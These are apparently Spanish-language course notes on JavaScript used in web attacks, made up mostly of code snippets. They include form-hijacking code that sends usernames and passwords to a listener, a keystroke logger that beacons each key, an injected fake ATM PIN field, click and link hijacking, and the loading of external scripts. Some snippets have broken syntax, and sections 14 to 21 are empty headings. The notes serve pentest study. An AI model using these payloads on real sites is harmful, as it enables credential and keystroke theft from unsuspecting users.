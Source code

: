 #### CallBack
> Recibir como parámetro a una función  
> Es una forma de asegurarnos de q un determinando codigo no se ejecuta hasta que otro codigo haya terminado de ejecutarse

### 1. Modificar HTML
**getElementsByTagName()** acepta un nombre de etiqueta y devuelve una colección HTML en vivo de elementos con el nombre de etiqueta coincidente en el orden en que aparecen en el documento.

```
document.getElementsByTagName("button")[0].innerHTML="JAVASCRIPT";
document.getElementsByTagName("h1")[0].innerHTML="Found";
```

### 2. Modificar los links
```
var links = document.getElementsByTagName("a");
for  (i=0; i<links.length; i++){
  links[i].href = "http://debiantano.github.io";
  links[i].innerHTML = "Link Modificado";
}
```

### 3. Hijack form submit
> Número de elementos \<form\> en el documento:  
```let num = document.forms.length;```  
> Obtenga la identificación del primer elemento \<form\>:  
```let id = document.forms[0].id;```  

```
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  alert(username + ' : ' + password);
}
document.forms[0].onsubmit = InterceptForm;
```

```
> python -m SimpleHTTPServer 8000
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  new Image().src = "http://localhost:8000/?username=' + username + "&password=" + password;
}
document.forms[0].onsubmit = InterceptForm;
```

### 4. Modify form fields
```
var input = document.createElement("input");

input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

var provius = document.forms[0].elements[0];

document.forms[0].insertBefore(input, previous);
docuemnt.forms[0].action = "http://localhost:8000/"
```

### 5. Ingenieria social
```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
```

```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
document.forms[0].parentNode.appendChild(document.forms[0)
```

### 6. Capture all clicks
```
function CaughtClick(){
  alert("You clicked");
}
document.body.addEventListener('click', CaughtClick, true);
```

```
function CaughtClick(){
  location.href = "https://google.es";
}
document.body.addEventListener('click', CaughtClick, true);
```

### 7. Keystroke logging
```
> python -m SimpleHTTPServer 8000
document.onkeypress = function Keylogger(inp){
  key_pressed = String.fromCharCode(inp.which);
  new Image().src = "http://localhost:9000/?" + key_pressed;
}
```

### 8. Event listener
```
" anmouseover="alert(1);

document.forms[0].onsubmit = function demo(){
  var pass = document.forms[0].elements[1].value;
  alert(pass);
}
```

### 9. Include external
```
> python -m http.server 8000
window.addEventListener("load", function(){alert(document.cookie);});  

<script src="http://localhost:8000/test.js"></script>
```
  
### 10. Include external js using
```
new newTag = document.createElement("script");
newTag.type = "text/javascript";
newTag.src = "http://demofilespa.s3amazonaws.com/jfptest.js";
document.body.appendChild(newTag);
```

### 11. Solution replace banner
```
document.getElementByTagName("img")[0].src = "https://www.google.com/images/srpr/logollw.png";
```

### 12. Solution Stealing from autocomplete
```
> nc -lvnp 8000
-----------------------------------------------------
window.setTimeout(function(){
  document.forms[0].action = "http://localhost:8000";
  document.forms[0].submit();
}, 10000);
```

### 13. Posting with xmlHTTPrequest
```
username = document.forms[0].elements[0].value;
password = document.forms[0].elements[1].value;
window.setTimeout(function(){
  alert(username + ":" + password)
}, 10000);
```

```
username = document.forms[0].elements[0].value;
password = document.forms[0].elements[1].value;
window.setTimeout(function(){
  var req = new XMLHttpRequest();
  req.open("GET", "http://localhost:8000/?username=" + username + "&password=" + password, true);
  req.send();
}, 10000);
```

### 14. Fetching data with xmlHTTPrequest
### 15. Data exfiltration with xmlHTTPrequest
### 16. Extraching CSRF tokens
### 17. CSRF token stealing
### 18. HTML parsing of xmlHTTPrequest response
### 19. Solution multilevel html parsing
### 20. Solution multilevel js parsing
### 21. Solution multilevel xml parsing

